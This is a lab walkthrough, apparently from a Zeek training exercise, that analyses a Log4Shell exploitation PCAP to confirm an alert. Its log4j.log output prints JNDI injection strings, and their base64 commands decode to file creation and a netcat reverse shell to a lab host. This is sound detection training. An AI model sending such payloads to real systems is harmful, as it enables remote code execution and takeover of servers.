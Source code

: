 # Log4J

An alert triggered: `Log4J Exploitation Attempt`.

The case was assigned to you. Inspect the PCAP and retrieve the artefacts to confirm this alert is a true positive. 

## Questions

Investigate the `log4shell.pcapng` file with `detection-log4j.zeek` script. 

    zeek -C -r log4shell.pcapng detection-log4j.zeek

Investigate the `signature.log` file. **What is the number of signature hits?**

```text
ubuntu@ip-10-10-177-209:~/Desktop/Exercise-Files/log4j$ cat signatures.log | zeek-cut uid | wc -l
3
```

Investigate the `http.log` file. **Which tool is used for scanning?**

```text
ubuntu@ip-10-10-177-209:~/Desktop/Exercise-Files/log4j$ cat http.log | zeek-cut user_agent
...
Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
```

Investigate the `http.log` file. **What is the extension of the exploit file?**

```text
ubuntu@ip-10-10-177-209:~/Desktop/Exercise-Files/log4j$ cat http.log | zeek-cut uri | uniq
/
/ExploitQ8v7ygBW4i.class
/
/ExploitSMMZvT8GXL.class
/
/Exploit6HHc3BcVzI.class
/
testing1
/testing1
/testing123
/
```

Investigate the `log4j.log` file. Decode the base64 commands. **What is the name of the created file?**

```text
ubuntu@ip-10-10-177-209:~/Desktop/Exercise-Files/log4j$ cat log4j.log | zeek-cut value | uniq
${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}
${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/d2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==}
${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/bmMgMTkyLjE2OC41Ni4xMDIgODAgLWUgL2Jpbi9zaCAtdnZ2Cg==}
${jndi:ldap://127.0.0.1:1389}
${jndi:ldap://192.168.56.102}
${jndi:ldap://192.168.56.102:389}
${jndi:ldap://192.168.56.102:389/test}
${jndi:ldap://192.168.56.102:389}
```

| ![Zeek](../../_static/images/zeek-logj4-pwnd.png)
|:--:|
| `pwned` |

That's it.
